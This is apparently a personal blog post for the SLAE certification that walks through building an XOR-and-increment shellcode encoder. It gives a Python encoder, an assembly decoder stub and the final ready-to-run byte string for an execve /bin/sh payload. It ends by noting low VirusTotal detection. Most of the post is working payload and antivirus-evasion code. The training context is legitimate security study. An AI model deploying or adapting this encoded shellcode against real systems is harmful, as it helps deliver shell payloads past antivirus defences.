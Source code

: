 ```yaml
---
layout: single
title: "SLAE: Shellcode Encoder"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-23
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```


_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_4)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and confirm the execution of a custom shellcode encoder. The payload will be a simple execve syscall calling //bin/sh as below:

![execve](/assets/images/SLAE_4/1.JPG)

First we will need to encode the raw shellcode, and then write a decoder in assembly which we will extract and prepend to our encoded shellcode. 

This is known as a "[decoder stub](http://uninformed.org/index.cgi?v=9&a=3&p=4)", it essentially runs prior to the encoded shellcode upon execution, and by the time the payload is reached it is decoded and ready to go.

#### Encoder:
After a lot of trial and error, I opted for 2 very simple techniques spliced together.

First, I modified Vivek's python script to take our shellcode and then xor each byte before incrementing them by 3 as below:

```
#!/usr/bin/python
# XOR all bytes then increase them by 3
# Python Encoder 

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")


encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
	x = x^0xaa
	encoded += '\\x'
	encoded += '%02x' % (x+3) # %02x tells format() to use at least 2 digits in hex

	encoded2 += '0x'
	encoded2 += '%02x,' % (x+3)


print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

We run our script with the shellcode and get out encoded payload:

![execve](/assets/images/SLAE_4/2.JPG)


#### Decoder:

Using the same tricks from previous assignments, I was able to write a simple yet effective decoder.

```
global _start			

section .text
_start:

	jmp short call_shellcode ; jump to call_shellcode, call decoder
decoder:
	pop esi ; (because we jumped, the next address is that of our shellcode)
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov cl, 25 ; set our loop length (equal to that of our generated shellcode)

decode2:
	sub byte [esi], 0x03
	xor byte [esi], 0xaa
	inc esi ; increment esi to run through all bytes
	loop decode2
	jmp short EncodedShellcode ; once complete jump into out decoded payload!



call_shellcode:

	call decoder
	EncodedShellcode: db 0x9e,0x6d,0xfd,0xc5,0x88,0x88,0xdc,0xc5,0xc5,0x88,0xcb,0xc6,0xc7,0x26,0x4c,0xfd,0x26,0x4b,0xfc,0x26,0x4e,0x1d,0xa4,0x6a,0x2d

```

We now pull the shellcode from our compiled decoder, which will altogether yield both the decoder stub and payload

```objdump -d ./insertion-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x14\x5e\x31\xc0\x31\xdb\x31\xc9\xb1\x19\x80\x2e\x03\x80\x36\xaa\x46\xe2\xf7\xeb\x05\xe8\xe7\xff\xff\xff\x9e\x6d\xfd\xc5\x88\x88\xdc\xc5\xc5\x88\xcb\xc6\xc7\x26\x4c\xfd\x26\x4b\xfc\x26\x4e\x1d\xa4\x6a\x2d"
```
The complete shellcode goes in our c program, and we test the decoder stub:

![shellcode_in_c](/assets/images/SLAE_4/3.JPG)

![execution](/assets/images/SLAE_4/4.JPG)

Although I opted to try and keep this as simple as possible, the results from [VirusTotal](https://www.virustotal.com/gui/file/8905dfb42a756e8d155aa696e6d4b39259ffecc6d8075d80885adbc8d9f816d5/detection) were not that bad.

![virus_total](/assets/images/SLAE_4/5.JPG)
